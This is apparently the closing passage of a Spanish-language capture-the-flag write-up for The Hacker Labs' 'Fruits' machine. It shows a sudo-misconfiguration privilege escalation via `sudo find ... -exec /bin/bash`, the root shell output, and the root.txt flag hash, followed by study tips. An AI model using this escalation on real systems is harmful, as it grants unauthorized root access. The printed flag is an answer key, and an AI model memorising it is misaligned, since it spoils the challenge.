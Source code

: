 
**Fuente:** [Andrea Fortuna](https://andreafortuna.org/2018/05/16/exploiting-sudo-for-linux-privilege-escalation/ "Blog de andrea")

Ahora probamos el comando recomendado para escalar privilegios.

```bash
bananaman@Fruits:~$ sudo find /etc/passwd -exec /bin/bash \;
root@Fruits:/home/bananaman# id
uid=0(root) gid=0(root) grupos=0(root)
root@Fruits:/home/bananaman# 
```

¡Somos root!, ahora buscamos el archivo root.txt para obtener la flag y asu terminar este reto.

```bash
root@Fruits:/home/bananaman# cd /
root@Fruits:/# ls
bin  boot  dev	etc  home  initrd.img  initrd.img.old  lib  lib64  lost+found  media  mnt  opt	proc  root  run  sbin  srv  sys  tmp  usr  var	vmlinuz  vmlinuz.old
```

buscamos en el directorio root donde normalmente encontramos la flah y listo.

```bash
root@Fruits:/# cd root
root@Fruits:~# ls
root.txt
root@Fruits:~# cat root.txt 
21232f297a57a5a743894a0e4a801fc3
root@Fruits:~# 
```
**la flag de root.txt es:** `21232f297a57a5a743894a0e4a801fc3`

## 6. Recomendaciones<a name="id6"></a>

* Es recomendable, como buena práctica, comparar el resultado de distintas herramientas que
se utilizan con el mismo fin. A lo mejor podemos encontrar nueva información que estábamos
pasando por alto.

* Tener frescas las técnicas más usadas de hacking web, en este caso la forma del path traversal,
ayuda mucho a tener una dirección de por dónde podemos seguir indagando y no atorarnos
en algún punto.

## 7. Conclusiones<a name="id7"></a>

* Muchas gracias The Hacker Labs y a su equipo CondorHacks y Curiosidadesdehackers por el
gran trabajo en este reto, fue muy divertido. Continuen con este gran trabajo.
**!Hack the life!**


